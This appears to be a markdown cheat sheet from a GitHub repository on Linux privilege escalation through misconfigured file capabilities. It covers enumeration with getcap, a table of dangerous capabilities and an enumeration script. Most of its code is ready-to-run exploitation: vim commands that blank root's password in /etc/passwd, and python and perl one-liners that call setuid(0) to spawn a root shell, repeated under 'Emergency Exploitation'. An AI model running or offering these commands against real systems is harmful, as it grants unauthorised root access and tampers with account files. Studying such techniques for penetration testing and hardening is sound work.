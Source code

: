 # 🎭 Capabilities

## 🎯 Overview

Linux capabilities provide fine-grained privileges to processes. Misconfigured capabilities on binaries can be exploited for privilege escalation without requiring SUID bits.

## 🔍 Enumeration

### Find Binaries with Capabilities
```bash
# Search all common binary directories
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; 2>/dev/null

# System-wide capability search
getcap -r / 2>/dev/null

# Example output:
# /usr/bin/vim.basic = cap_dac_override+eip
# /usr/bin/ping = cap_net_raw+ep
```

## 🔑 Dangerous Capabilities

### High-Risk Capabilities
| Capability | Impact |
|------------|---------|
| `cap_setuid` | Change effective UID to any user (including root) |
| `cap_setgid` | Change effective GID to any group |
| `cap_sys_admin` | Broad administrative privileges |
| `cap_dac_override` | Bypass file read/write/execute permissions |

### Other Notable Capabilities
```bash
cap_sys_chroot     # Change root directory
cap_sys_ptrace     # Attach/debug other processes  
cap_sys_nice       # Change process priority
cap_sys_time       # Modify system clock
cap_sys_module     # Load/unload kernel modules
cap_net_bind_service # Bind to privileged ports
```

## 🚀 Exploitation Examples

### cap_dac_override (File Permission Bypass)
```bash
# If vim.basic has cap_dac_override
/usr/bin/vim.basic /etc/passwd

# Remove 'x' from root line:
# Before: root:x:0:0:root:/root:/bin/bash
# After:  root::0:0:root:/root:/bin/bash

# Switch to root (no password required)
su root
```

### cap_setuid (UID Manipulation)
```bash
# If python has cap_setuid
python -c "import os; os.setuid(0); os.system('/bin/bash')"

# If perl has cap_setuid  
perl -e 'use POSIX; POSIX::setuid(0); exec "/bin/bash";'
```

### cap_sys_admin (Administrative Access)
```bash
# Can mount filesystems, modify kernel parameters
# Often provides multiple escalation paths
mount -o bind /etc /tmp/etc  # Bind mount for manipulation
```

## 🔧 Advanced Exploitation

### Non-interactive File Editing
```bash
# Remove root password via vim with cap_dac_override
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

# Verify change
cat /etc/passwd | head -n1
# Output: root::0:0:root:/root:/bin/bash

# Escalate to root
su root  # No password required
```

### Python/Interpreter Capabilities
```bash
# If python has dangerous capabilities
getcap $(which python python3) 2>/dev/null

# Exploitation with cap_setuid
python -c "import os; os.setuid(0); os.execl('/bin/bash', 'bash')"
```

## 🔍 Detection Script

```bash
#!/bin/bash
echo "=== CAPABILITIES ENUMERATION ==="

echo "[+] Binaries with capabilities:"
getcap -r / 2>/dev/null

echo "[+] Dangerous capability check:"
dangerous_caps="cap_setuid cap_setgid cap_sys_admin cap_dac_override"

getcap -r / 2>/dev/null | while read line; do
    for cap in $dangerous_caps; do
        if echo "$line" | grep -q "$cap"; then
            echo "[!] DANGEROUS: $line"
        fi
    done
done

echo "[+] Quick capability lookup:"
for binary in vim nano python python3 perl ruby; do
    cap=$(getcap $(which $binary 2>/dev/null) 2>/dev/null)
    if [ ! -z "$cap" ]; then
        echo "  $cap"
    fi
done
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Find capabilities
getcap -r / 2>/dev/null | grep -E "(setuid|setgid|sys_admin|dac_override)"

# Common targets
getcap $(which vim python python3 perl) 2>/dev/null
```

### Emergency Exploitation
```bash
# cap_dac_override + vim
/usr/bin/vim.basic /etc/passwd
# Remove root password 'x'

# cap_setuid + python
python -c "import os; os.setuid(0); os.system('/bin/bash')"

# cap_setuid + perl
perl -e 'use POSIX; POSIX::setuid(0); exec "/bin/bash";'
```

---

*Capabilities provide fine-grained privilege control but misconfigured capability assignments can offer direct privilege escalation paths without traditional SUID requirements.* 